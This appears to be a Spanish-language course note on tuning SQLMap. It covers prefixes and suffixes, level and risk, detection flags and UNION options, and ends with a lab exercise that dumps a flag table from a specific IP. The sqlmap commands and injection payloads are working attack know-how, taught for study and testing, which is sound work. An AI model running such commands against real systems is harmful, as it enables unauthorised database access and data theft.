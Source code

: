 
---
# Ajuste de Ataques en SQLMap

SQLMap está diseñado para funcionar de manera óptima con los detalles del objetivo proporcionados. Sin embargo, en algunos casos puede ser necesario ajustar la detección de SQLi para mejorar los resultados.

## Estructura de los Payloads

Cada payload enviado por SQLMap consta de:

- **Vector**: La parte central de la inyección, contiene el código SQL que se ejecutará en el objetivo.  
    _Ejemplo:_ `UNION ALL SELECT 1,2,VERSION()`
- **Boundaries**: Prefijo y sufijo que permiten insertar correctamente el vector en la consulta SQL vulnerable.  
    _Ejemplo:_ `<vector>-- -`

## Uso de Prefijo y Sufijo

En ciertos casos, SQLMap no puede inyectar directamente, por lo que se deben definir prefijos y sufijos específicos con `--prefix` y `--suffix`:

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

Si la consulta vulnerable en el servidor es:

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
```

El payload:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

Esto ayuda en casos donde se requieren estructuras específicas para que la inyección sea exitosa.

## Nivel y Riesgo

SQLMap permite ajustar los vectores utilizados con las opciones:

- `--level` (1-5, por defecto 1): Amplía el número de vectores y boundaries utilizados. A mayor nivel, más pruebas con menor probabilidad de éxito.
- `--risk` (1-3, por defecto 1): Amplía el conjunto de vectores dependiendo del riesgo de afectar el sistema (pérdida de datos o DoS).

Ejemplo con máxima profundidad:

```bash
sqlmap -u www.example.com/?id=1 --level=5 --risk=3
```

Esto incrementa el número de payloads enviados (de ~72 en `--level=1 --risk=1` hasta ~7,865 en `--level=5 --risk=3`).

⚠️ **Nota:** Aumentar estos valores ralentiza la detección. Solo modificar en casos donde los ataques estándar no sean efectivos.

## Depuración y Comparación de Payloads

Para observar las diferencias en los payloads generados con distintos niveles y riesgos, se puede usar `-v 3`:

```bash
sqlmap -u www.example.com/?id=1 -v 3 --level=5
```

Salida con `--level=5` (más payloads y pruebas adicionales):

```
[INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
[INFO] testing 'Oracle boolean-based blind - WHERE clause (CTXSYS.DRITHSX.SN)'
...
```

Salida con valores por defecto (`--level=1 --risk=1`):

```
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
```
![[Pasted image 20250130125544.png]]

## Ajustes Avanzados

SQLMap permite afinar la detección con varias opciones específicas:

### **Basado en Códigos de Estado HTTP**

Si las respuestas del servidor varían según el código HTTP (`200` para TRUE, `500` para FALSE), se puede especificar con:

```bash
sqlmap -u www.example.com/?id=1 --code=200
```

### **Basado en el Título de la Página**

Si el cambio en la respuesta está en la etiqueta `<title>`, se usa:

```bash
sqlmap -u www.example.com/?id=1 --titles
```

### **Detección Basada en Texto**

Si la diferencia entre respuestas se encuentra en el contenido, se puede fijar con:

```bash
sqlmap -u www.example.com/?id=1 --string="Login successful"
```

### **Filtrar Solo Texto Visible**

Para ignorar etiquetas HTML (`<script>`, `<style>`, etc.) y analizar solo el contenido visible:

```bash
sqlmap -u www.example.com/?id=1 --text-only
```

## Selección de Técnicas SQLi

En ciertos casos, es necesario limitar las pruebas a un tipo específico de inyección con `--technique`:

```bash
sqlmap -u www.example.com/?id=1 --technique=BEU
```

- `B` (Boolean-based blind)
- `E` (Error-based)
- `U` (Union-based)
- `S` (Stacked queries)
- `T` (Time-based blind)

_⚠️ Útil si ciertas técnicas generan problemas (por ejemplo, time-based causando timeouts)._

## Ajustes para Inyección UNION

Si una inyección UNION requiere datos específicos, podemos definir:

- Número de columnas:
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-cols=5
    ```
    
- Valores de relleno en UNION:
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-char='X'
    ```
    
- Tabla específica en `FROM` (para bases de datos como Oracle):
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-from=users
    ```
    

---

## Ejercicios

* Ejercicio 1:
	`sqlmap -u "http://83.136.249.42:36158/case5.php?id=1" -D testdb -T flag5 --dump --level=1 --risk=3 --no-cast`
* Ejercicio 2:
	